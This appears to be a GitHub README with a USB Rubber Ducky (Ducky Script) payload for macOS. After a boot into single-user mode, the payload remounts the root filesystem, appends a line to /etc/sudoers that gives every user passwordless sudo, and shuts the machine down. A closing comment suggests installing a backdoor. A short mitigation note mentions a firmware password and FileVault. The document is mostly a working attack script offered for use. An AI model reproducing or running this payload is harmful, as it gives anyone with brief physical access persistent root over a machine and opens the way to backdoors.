 **Author: Jesse Wallace (@c0deous)**
**[c0deo.us](https://c0deo.us/)**

This script adds a line into /etc/sudoers that enables sudo for ALL users **without requiring a password.**  Only requirement is a reboot into [single user mode](https://support.apple.com/en-us/HT201573).

**Mitigation**

Setup a [firmware password](https://support.apple.com/en-us/HT204455) or enable [FileVault](https://support.apple.com/en-us/HT204837) disk encryption.

```
REM MacOS AllSudo
REM Enables Sudo access for all users without a password
REM First boot the machine into single user mode - https://support.apple.com/en-us/HT201573
REM (You could probably script single user mode but I couldn't be bothered to play with the timings)
REM By Jesse Wallace (@c0deous)
REM https://c0deo.us/
DELAY 1000
STRING mount -uw / && chmod 755 /etc/sudoers && echo 'ALL    ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers && chmod 440 /etc/sudoers && shutdown -h now
ENTER
REM Now would be a great time to install a backdoor.  Ez root ;3
REM TODO Use visudo for edits (unconfirmed if working)